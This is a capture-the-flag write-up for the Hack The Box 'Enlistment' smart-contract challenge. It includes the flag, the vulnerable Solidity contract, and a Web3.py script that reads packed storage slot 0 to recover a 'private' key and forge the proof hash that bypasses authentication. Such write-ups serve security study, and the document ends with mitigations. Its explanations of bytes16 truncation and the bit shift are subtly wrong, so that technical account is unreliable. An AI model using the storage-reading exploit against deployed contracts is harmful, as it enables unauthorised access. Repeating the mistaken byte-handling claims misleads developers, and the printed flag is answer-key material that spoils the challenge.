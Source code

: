 # HTB Operation Blackout - Enlistment

## Challenge Overview

**Challenge Name:** Enlistment  
**Category:** Blockchain / Smart Contract Security  
**Difficulty:** Easy  
**Flag:** `HTB{gg_wp_w3lc0me_t0_th3_t34m}`

Task Force Phoenix is mobilizing to counter the growing cyber threat of Operation Blackout. Applications are now open for enlistment for the Blockchain Security Unit. This challenge involves exploiting a vulnerability in a Solidity smart contract's authentication mechanism.

## Given Files

- `Enlistment.sol` - Main smart contract with vulnerable authentication
- `Setup.sol` - Contract setup and verification logic

## Technical Analysis

### Smart Contract Vulnerability Assessment

#### Enlistment.sol Analysis
```solidity
contract Enlistment {
    bytes16 public publicKey;
    bytes16 private privateKey;
    mapping(address => bool) public enlisted;
    
    constructor(bytes32 _key) {
        publicKey = bytes16(_key);
        privateKey = bytes16(_key << (16*8));
    }

    function enlist(bytes32 _proofHash) public {
        bool authorized = _proofHash == keccak256(abi.encodePacked(publicKey, privateKey));
        require(authorized, "Invalid proof hash");
        enlisted[msg.sender] = true;
    }
}
```

### Vulnerability Identification

1. **Public Key Exposure:** The `publicKey` variable is marked as `public`, making it readable by anyone
2. **Predictable Private Key:** The private key is derived from the same input as the public key:
   - `publicKey = bytes16(_key)` - Takes the lower 16 bytes of `_key`
   - `privateKey = bytes16(_key << (16*8))` - Takes the upper 16 bytes of `_key` shifted down
3. **Weak Authentication:** The `enlist` function only verifies a hash match without proper key validation

## Attack Chain

### 1. Solidity Storage Layout Analysis
**Critical Insight:** Multiple small variables are packed into single storage slots:
```solidity
bytes16 public publicKey;    // Stored in slot 0, lower 16 bytes
bytes16 private privateKey;  // Stored in slot 0, upper 16 bytes
```
Both variables are packed into storage slot 0, making the private key accessible.

### 2. Storage Reading Exploitation
```python
#!/usr/bin/env python3
from web3 import Web3

def solve_ctf():
    # Connect to blockchain
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    
    # Get target contract address
    setup_contract = w3.eth.contract(address=SETUP_ADDRESS, abi=SETUP_ABI)
    target_address = setup_contract.functions.TARGET().call()
    
    # Create contract instance
    enlistment_contract = w3.eth.contract(address=target_address, abi=ENLISTMENT_ABI)
    
    # KEY INSIGHT: Read storage slot 0 which contains both packed variables
    slot0 = w3.eth.get_storage_at(target_address, 0)
    public_key = slot0[16:]  # Lower 16 bytes (publicKey)
    private_key = slot0[:16]  # Upper 16 bytes (privateKey)
    
    # Calculate the proof hash that the contract expects
    proof_hash = w3.keccak(public_key + private_key)
    
    # Submit the proof to enlist
    enlist_txn = enlistment_contract.functions.enlist(proof_hash).build_transaction({
        'from': player_address,
        'nonce': nonce,
        'gasPrice': gas_price,
        'gas': gas_estimate + 10000
    })
    
    signed_txn = w3.eth.account.sign_transaction(enlist_txn, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
```

### 3. Authentication Bypass
The exploit reconstructs the expected proof hash by:
1. Reading the storage slot containing both public and private keys
2. Extracting the keys from their packed positions
3. Computing `keccak256(abi.encodePacked(publicKey, privateKey))`
4. Submitting the proof to bypass authentication

## Key Technical Concepts

### Solidity Storage Layout
- Multiple small variables can be packed into single storage slots for gas optimization
- `bytes16` + `bytes16` = 32 bytes = 1 storage slot
- Understanding storage layout is crucial for reading contract state

### Bit Shift Operations
The line `privateKey = bytes16(_key << (16*8))` performs:
- Left shift by 128 bits (16 * 8)
- Moves upper 16 bytes of `_key` to lower position
- `bytes16()` takes only the lower 16 bytes of the result

### Blockchain State Visibility
- All contract storage is visible on the blockchain
- "Private" variables are only private in Solidity visibility, not blockchain visibility
- Attackers can read all contract storage directly

## Mitigation Recommendations

### Smart Contract Security
- Never derive secrets from publicly accessible information
- Don't rely on "private" variables for security-critical data
- Use proper cryptographic authentication mechanisms
- Implement secure key management practices

### Authentication Design
- Use proper digital signature verification instead of hash comparison
- Implement nonce-based authentication to prevent replay attacks
- Store sensitive data off-chain when possible
- Use proven cryptographic libraries and patterns

### Development Practices
- Conduct thorough security audits before deployment
- Test contract storage layout and accessibility
- Follow established smart contract security guidelines
- Implement proper access controls and validation

## Tools Used

- Web3.py for blockchain interaction and smart contract communication
- Python for exploit script development
- Ethereum JSON-RPC for direct storage access
- Solidity for smart contract analysis

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)